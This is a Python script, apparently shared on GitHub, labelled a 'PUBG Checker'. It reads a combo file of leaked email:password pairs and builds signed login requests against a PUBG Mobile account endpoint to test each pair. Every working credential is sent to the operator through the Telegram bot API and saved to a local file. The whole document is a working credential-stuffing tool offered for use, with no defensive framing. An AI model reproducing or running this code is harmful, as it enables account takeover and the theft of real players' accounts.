 import requests,hashlib,random,string,time
r = requests.session()
print("""
██████╗ ██╗   ██╗██████╗  ██████╗
██╔══██╗██║   ██║██╔══██╗██╔════╝ Checker
██████╔╝██║   ██║██████╔╝██║  ███╗
██╔═══╝ ██║   ██║██╔══██╗██║   ██║
██║     ╚██████╔╝██████╔╝╚██████╔╝
╚═╝      ╚═════╝ ╚═════╝  ╚═════╝ 
      
""")
ID= input('[+] Enter YOUR ID : ')
token = input('[+] Enter TOKEN BOT : ')
headPUB = {
	"Content-Type": "application/json; charset=utf-8","User-Agent": f"Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-G973N Build/PPR1.910397.817)","Host": "igame.msdkpass.com","Connection": "Keep-Alive","Accept-Encoding": "gzip","Content-Length": "126"}
def CHECK(email,pess):
  eml = email
  pas = pess
  YES = f"""
[✓] Hi Baby This A new account :
[✓] Email: {eml}
[✓] Pass: {pas}
━━━━━━━━━━━━━"""
  NO = f"""
[-] This account is fucked :
[-] Email: {eml}
[-] Pass: {pas}
━━━━━━━━━━━━━"""
  pes = hashlib.md5(bytes(f'{pas}', encoding='utf-8')).hexdigest()
  J = hashlib.md5(bytes("/account/login?account_plat_type=3&appid=dd921eb18d0c94b41ddc1a6313889627&lang_type=tr_TR&os=1{\"account\":\""+eml+"\",\"account_type\":1,\"area_code\":\"\",\"extra_json\":\"\",\"password\":\""+pes+"\"}3ec8cd69d71b7922e2a17445840866b26d86e283", encoding="utf-8")).hexdigest()
  url = f"https://igame.msdkpass.com/account/login?account_plat_type=3&appid=dd921eb18d0c94b41ddc1a6313889627&lang_type=tr_TR&os=1&sig={J}"
  daPU = "{\"account\":\""+eml+"\",\"account_type\":1,\"area_code\":\"\",\"extra_json\":\"\",\"password\":\""+pes+"\"}"
  time.sleep(0.5)
  GO=r.get(url, data=daPU,headers=headPUB).text
  if '"token"' in GO:
    print(YES)
    r.post(f'https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={YES}\nBY @LII_LIL @D_1_P 💸')
    with open('NWE-PUBG.txt', 'a') as x:
      x.write(eml+':'+pas+' |@LII_LIL\n')
  else:
    print(NO)
def FILname():
  F = input('[+] Enter the name the combo file : ')
  try:
    for x in open(F,'r').read().splitlines():
      email = x.split(":")[0]
      pess = x.split(":")[1]
      CHECK(email,pess)
  except FileNotFoundError:
    print('\n[-] The file name is incorrect !\n')
    return FILname()
FILname()
